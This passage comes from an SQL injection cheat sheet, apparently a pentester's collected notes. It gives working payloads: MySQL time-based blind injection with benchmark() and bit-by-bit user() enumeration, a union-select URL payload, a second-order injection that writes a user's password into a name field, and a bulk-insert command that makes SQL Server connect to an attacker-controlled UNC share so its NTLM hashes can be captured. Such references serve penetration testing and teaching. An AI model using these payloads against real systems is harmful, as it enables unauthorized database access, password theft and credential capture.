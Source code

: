             select * from foo;`
-   More Timing in MySQL
-   `select benchmark( 500000, sha1( 'test' ) );`
-   `query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
-   `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' );  
    `**Enumeration data, Guessed Brute Force**
    -   `select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`

#### Potentially Useful MySQL Functions

-   `MD5()`  
    MD5 Hashing  
    
-   `SHA1()`  
    SHA1 Hashing  
      
    
-   `PASSWORD()`
-   `ENCODE()`
-   `COMPRESS()`  
    Compress data, can be great in large binary reading in Blind SQL Injections.  
    
-   `ROW_COUNT()`
-   `SCHEMA()`
-   `VERSION()`  
    Same as  `@@version`

## Second Order SQL Injections

Basically you put an SQL Injection to some place and expect it's unfiltered in another action. This is common hidden layer problem.

Name :  `' + (SELECT TOP 1 password FROM users ) + '`  
Email : `[xx@xx.com](mailto:xx@xx.com)`

If application is using name field in an unsafe stored procedure or function, process etc. then it will insert first users password as your name etc.

### Forcing SQL Server to get NTLM Hashes

This attack can help you to get SQL Server user's Windows password of target server, but possibly you inbound connection will be firewalled. Can be very useful internal penetration tests. We force SQL Server to connect our Windows UNC Share and capture data NTLM session with a tool like Cain & Abel.

#### Bulk insert from a UNC Share (S)  
`bulk insert foo from '\\YOURIPADDRESS\C$\x.txt'`

Check out Bulk Insert Reference to understand how can you use bulk insert.

## References

_Since these notes collected from several different sources within several years and personal experiences, may I missed some references. If you believe I missed yours or someone else then  [drop me an email](http://ferruh.mavituna.com/iletisim/)  (ferruh-at-mavituna.com), I'll update it as soon as possible._
